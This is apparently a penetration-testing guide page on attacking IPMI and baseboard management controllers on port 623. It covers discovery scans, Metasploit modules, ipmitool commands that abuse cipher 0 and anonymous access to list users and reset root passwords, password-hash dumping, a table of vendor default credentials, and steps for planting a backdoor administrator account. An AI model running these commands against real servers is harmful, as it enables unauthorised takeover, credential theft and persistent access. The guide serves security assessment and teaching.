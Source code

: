 623/UDP/TCP - IPMI

Information taken from https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/​
Basic Information

Baseboard Management Controllers (BMCs) are a type of embedded computer used to provide out-of-band monitoring for desktops and servers. These products are sold under many brand names, including HP iLO, Dell DRAC, Sun ILOM, Fujitsu iRMC, IBM IMM, and Supermicro IPMI. BMCs are often implemented as embedded ARM systems, running Linux and connected directly to the southbridge of the host system's motherboard. Network access is obtained either via 'sideband' access to an existing network card or through a dedicated interface. In addition to being built-in to various motherboards, BMCs are also sold as pluggable modules and PCI cards. Nearly all servers and workstations ship with or support some form of BMC. The Intelligent Platform Management Interface (IPMI) is a collection of specifications that define communication protocols for talking both across a local bus as well as the network. This specification is managed by Intel and currently comes in two flavors, version 1.5 and version 2.0. The primary goal of Dan Farmer's research was on the security of the IPMI network protocol that uses UDP port 623. A diagram of the how the BMC interfaces with the system is shown below (CC-SA-3.0 (C) U. Vezzani).

Default Port: 623/UDP/TCP (It's usually on UDP but it could also be running on TCP)
Enumeration
Discovery

nmap -n -p 623 10.0.0./24
nmap -n-sU -p 623 10.0.0./24
use  auxiliary/scanner/ipmi/ipmi_version

You can identify the version using:

use auxiliary/scanner/ipmi/ipmi_version

Vulnerability - IPMI Authentication Bypass via Cipher 0

Dan Farmer identified a serious failing of the IPMI 2.0 specification, namely that cipher type 0, an indicator that the client wants to use clear-text authentication, actually allows access with any password. Cipher 0 issues were identified in HP, Dell, and Supermicro BMCs, with the issue likely encompassing all IPMI 2.0 implementations.
Note that to exploit this issue you first need to find a valid user.

You can identify this issue using:

use auxiliary/scanner/ipmi/ipmi_cipher_zero

And you can abuse this issue with ipmitool:

apt-get install ipmitool #Install
#Using -C 0 any password is accepted
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list #Use Cipher 0 to dump a list of users
ID  Name      Callin  Link Auth   IPMI Msg   Channel Priv Limit
2   root             true    true       true       ADMINISTRATOR
3   Oper1            true    true       true       ADMINISTRATOR
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123 #Change the password of root

Vulnerability - IPMI 2.0 RAKP Authentication Remote Password Hash Retrieval

Basically, you can ask the server for the hashes MD5 and SHA1 of any username and if the username exists those hashes will be sent back. Yeah, as amazing as it sounds. And there is a metasploit module for testing this (you can select the output in John or Hashcat format):

msf > use auxiliary/scanner/ipmi/ipmi_dumphashes

Note that for this you only need a list of usernames to brute-force (metasploit already contains one with default usernames).

Using ipmitoolbypassing authentication (-c 0) to change the root password to abc123:

root@kali:~# apt-get install ipmitool
root@kali:~# ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list
ID  Name      Callin  Link Auth   IPMI Msg   Channel Priv Limit
2   root             true    true       true       ADMINISTRATOR
3   Oper1            true    true       true       ADMINISTRATOR
root@kali:~# ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123

Vulnerability - IPMI Anonymous Authentication

 In addition to the authentication problems above, Dan Farmer noted that many BMCs ship with "anonymous" access enabled by default. This is configured by setting the username of the first user account to a null string and setting a null password to match. The ipmi_dumphashes module will identify and dump the password hashes (including blank passwords) for null user accounts. This account can be difficult to use on its own, but we can leverage ipmitool to reset the password of a named user account and leverage that account for access to other services:

ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user list
​
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
1                    false  false      true      ADMINISTRATOR
2  root            false  false      true      ADMINISTRATOR
3  admin            true    true      true      ADMINISTRATOR
​
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user set password 2 newpassword #Change the password of the user 2 (root) to "newpassword"

Vulnerability - Supermicro IPMI Clear-text Passwords

The IPMI 2.0 specification mandates that the BMC respond to HMAC-based authentication methods such as SHA1 and MD5. This authentication process has some serious weaknesses, as demonstrated in previous examples, but also requires access to the clear-text password in order to calculate the authentication hash. This means that the BMC must store a clear-text version of all configured user passwords somewhere in non-volatile storage. In the case of Supermicro, this location changes between firmware versions, but is either /nv/PSBlock or /nv/PSStore. The passwords are scattered between various binary blobs, but easy to pick out as they always follow the username. This is a serious issue for any organization that uses shared passwords between BMCs or even different types of devices.

 cat /nv/PSBlock
  admin                      ADMINpassword^TT                    rootOtherPassword!

Vulnerability - Supermicro IPMI UPnP

Supermicro includes a UPnP SSDP listener running on UDP port 1900 on the IPMI firmware of many of its recent motherboards. On versions prior to SMT_X9_218 this service was running the Intel SDK for UPnP Devices, version 1.3.1. This version is vulnerable to the issues Rapid7 disclosed in February of 2013, and an exploit target for this platform is part of the Metasploit Framework. The interesting thing about this attack is that it yields complete root access to the BMC, something that is otherwise difficult to obtain. Keep in mind than an attacker with administrative access, either over the network or from a root shell on the host system, can downgrade the firmware of a Supermicro BMC to a vulnerable version and then exploit it. Once root access is obtained, it is possible to read cleartext credentials from the file system, install additional software, and integrate permanent backdoors into the BMC that would survive a full reinstall of the host's operating system.

msf> use exploit/multi/upnp/libupnp_ssdp_overflow

Brute Force

Note that only HP randomizes the password during the manufacturing process.

Product Name
	

Default Username
	

Default Password

HP Integrated Lights Out (iLO)
	

Administrator
	

<factory randomized 8-character string>

Dell Remote Access Card (iDRAC, DRAC)
	

root
	

calvin

IBM Integrated Management Module (IMM)
	

USERID
	

PASSW0RD (with a zero)

Fujitsu Integrated Remote Management Controller
	

admin
	

admin

Supermicro IPMI (2.0)
	

ADMIN
	

ADMIN

Oracle/Sun Integrated Lights Out Manager (ILOM)
	

root
	

changeme

ASUS iKVM BMC
	

admin
	

admin
Exploiting the Host from the BMC

Once administrative access to the BMC is obtained, there are a number of methods available that can be used to gain access to the host operating system. The most direct path is to abuse the BMCs KVM functionality and reboot the host to a root shell (init=/bin/sh in GRUB) or specify a rescue disk as a virtual CD-ROM and boot to that. Once raw access to the host's disk is obtained, it is trivial to introduce a backdoor, copy data from the hard drive, or generally do anything needing doing as part of the security assessment. The big downside, of course, is that the host has to be rebooted to use this method. Gaining access to the host running is much trickier and depends on what the host is running. If the physical console of the host is left logged in, it becomes trivial to hijack this using the built-in KVM functionality. The same applies to serial consoles - if the serial port is connected to an authenticated session, the BMC may allow this port to be hijacked using the ipmitool interface for serial-over-LAN (sol). One path that still needs more research is abusing access to shared hardware, such as the i2c bus and the Super I/O chip.

​
Exploiting the BMC from the Host

In situations where a host with a BMC has been compromised, the local interface to the BMC can be used to introduce a backdoor user account, and from there establish a permanent foothold on the server. This attack requires the ipmitool to be installed on the host and driver support to be enabled for the BMC. The example below demonstrates how the local interface on the host, which does not require authentication, can be used to inject a new user account into the BMC. This method is universal across Linux, Windows, BSD, and even DOS targets.

ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)
​
ipmitool user set name 4 backdoor
ipmitool user set password 4 backdoor
ipmitool user priv 4 4
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)
4  backdoor        true    false      true      ADMINISTRATOR

Shodan

    port:623
